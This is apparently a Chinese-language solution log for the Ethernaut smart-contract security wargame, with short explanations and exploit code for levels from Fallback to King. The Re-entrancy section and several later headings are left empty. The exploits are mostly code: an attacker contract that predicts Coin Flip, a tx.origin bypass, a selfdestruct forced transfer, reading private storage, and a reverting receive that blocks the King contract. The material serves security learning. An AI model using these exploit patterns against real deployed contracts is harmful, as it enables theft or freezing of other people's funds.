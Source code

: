 ```yaml
---
tags:
  - TODO
---
```


# Ethernaut 刷题记录

## Fallback


```js
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})
await contract.sendTransaction({from: player, value: toWei('0.0001')})
await contract.withdraw()
```

receive 函数能够在合约账户接收以太币的时候触发 fallback，所以只要向合约发出带有以太币的交易就可以触发这个函数转移 owner

## Fallout

```js
await contract.Fal1out()
```

拼写错误

## Coin Flip

```js
contract Hack {
    CoinFlip coin_flip = CoinFlip(0x23B4f570431e0A701d5E08B80b3ecb7F53E75204);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    constructor() {
    }

    function poc() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return coin_flip.flip(side);
    }
}
```

```python
def main():
    # contractAddress = deploy()
    contractAddress = "0x62ce547f26708dd8D311C14ac345664bAf7524F0"

    for i in range(10):
        print(f"Sending {i + 1}")
        txn_receipt = transact(hacker, contractAddress, utils.calc_call_data("poc()"))
        print(txn_receipt)
        time.sleep(3)
```

## Telephone

- tx.origin：交易发送方
- msg.sender：消息发送方

比如 用户账户 A -> 合约账户 B -> 合约账户 C，那么 C 获取到的 tx.origin 为 A，msg.sender 为 B。所以写个合约调用就行。

```js
contract Hack {
    Telephone tel;
    constructor (address t) {
        tel = Telephone(t);
    }

    function hack() public {
        tel.changeOwner(msg.sender);
    }
}
```
## Token

整型下溢就行

## Delegation

https://www.wtf.academy/solidity-advanced/Delegatecall/

当用户 A 通过合约 B 来 delegatecall 合约 C 的时候，执行的是合约 C 的函数，但是语境仍是合约 B 的：msg.sender 是 A 的地址，并且如果函数改变一些状态变量，产生的效果会作用于合约 B 的变量上。

```py
contractAddress = "0xeb219f0c57D1C3e0a773c410C6284860B1959d78"
txn_receipt = transact(hacker, contractAddress, utils.calc_call_data("pwn()"))
```

## Force

`selfdestruct` 强制转账。

```js
contract Hack {
  constructor () payable {
  }

  function poc(address game) public payable {
      selfdestruct(payable(game));
  }
}
```

## Vault

存储的所有状态变量都是上链的

```js
await web3.eth.getStorageAt(instance, 1)
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

## King

可以看到题目合约在 receive 时会向前一个 king transfer，所以自己恶意合约的 receive 函数 revert 就行。

```js
contract Hack {
  King king;
  constructor(address game) payable {
    king = King(payable(game));
    payable(address(game)).call{value: msg.value}("");
  }

  receive() external payable {
    revert();
  }
}
```

## Re-entrancy


## 

## 

## 

## 